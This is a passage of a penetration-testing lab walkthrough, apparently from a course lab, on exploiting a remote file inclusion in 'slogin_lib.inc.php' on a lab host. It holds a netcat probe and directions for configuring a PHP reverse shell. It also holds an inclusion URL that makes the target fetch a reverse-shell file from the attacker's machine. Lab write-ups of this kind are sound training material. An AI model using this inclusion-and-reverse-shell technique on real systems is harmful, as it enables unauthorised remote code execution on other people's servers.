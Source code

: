 ### Confirm via netcat
`printf "GET /1f2e73705207bdd6467e109c1606ed29-21213/111111111/slogin_lib.inc.php HTTP/1.1\r\nHost: 10.11.1.133\r\nUser-Agent: libcurl-agent/1.0\r\nAccept: */*\r\n\r\n" | sudo nc 10.11.1.133 80`
![bcea3ba9bdd26e285fe023834eb9ee9f.png](../../../_resources/47d72ee0f0354584856aae9d3689288d.png)

## Pick a reverse shell, and modify it to use your attack machine's IP and listening port if necessary.
The shell that works is the one located at:
`/usr/share/webshells/php/php-reverse-shell.php`

Modify it to use the attack machine IP and listening port of your choice.
In this example, attack machine IP=192.168.119.214, and listening port=5678
![587522803fbbe139b4082898d51d4259.png](../../../_resources/ba19604766634d2fa09b9306c1e7f46f.png)

*Note* I had also tried a jsp reverse shell, but it didn't work.
`http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/111111111/slogin_lib.inc.php?slogin_path=http://192.168.119.214/jsp-reverse.jsp?`
![3a7c3b93808a5ee619abd24e63cb4121.png](../../../_resources/9771fc9d775d419f9b9120786c4e5915.png)
